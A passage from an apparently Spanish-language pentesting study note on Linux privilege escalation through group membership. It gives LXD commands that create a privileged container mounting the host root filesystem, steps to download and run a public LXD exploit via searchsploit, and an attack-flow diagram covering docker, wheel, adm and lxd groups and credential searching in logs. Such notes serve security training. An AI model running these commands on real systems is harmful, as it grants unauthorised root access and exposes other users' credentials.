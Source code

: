 ### Explotación con LXD

El proceso es similar a Docker pero usando comandos LXD:

```bash
# Crear contenedor con montaje privilegiado
lxc init ubuntu:18.04 privesc -c security.privileged=true

# Montar sistema de archivos del host
lxc config device add privesc host-root disk source=/ path=/mnt/root

# Iniciar contenedor
lxc start privesc

# Ejecutar shell en el contenedor
lxc exec privesc /bin/bash
```

### Uso de exploits automatizados

Con [[searchsploit]] podemos encontrar exploits específicos para LXD:

```bash
# Buscar exploits de escalada de privilegios para LXD
searchsploit "lxd privilege escalation"

# Descargar exploit específico
searchsploit -m linux/local/46978.sh

# Ejecutar exploit (típicamente automatiza el proceso anterior)
chmod +x 46978.sh
./46978.sh
```

---

## 🔄 Metodología de Explotación

### Flujo general de ataque

```mermaid
sequenceDiagram
    participant A as Atacante
    participant S as Sistema Comprometido
    participant C as Contenedor/Servicio
    participant R as Root Access
    
    A->>S: Acceso inicial (usuario limitado)
    A->>S: id (identificar grupos)
    S->>A: grupos=docker,wheel,adm,lxd
    A->>S: Evaluar vector más prometedor
    
    alt Docker disponible
        A->>C: docker run con montaje privilegiado
        C->>S: Acceso a sistema de archivos host
        A->>R: Modificar archivos críticos
    else Wheel group + sudo
        A->>S: sudo su -
        S->>R: Shell root directo
    else ADM + información sensible
        A->>S: grep credenciales en logs
        S->>A: Credenciales de otros usuarios
        A->>R: Escalada lateral/vertical
    end
```
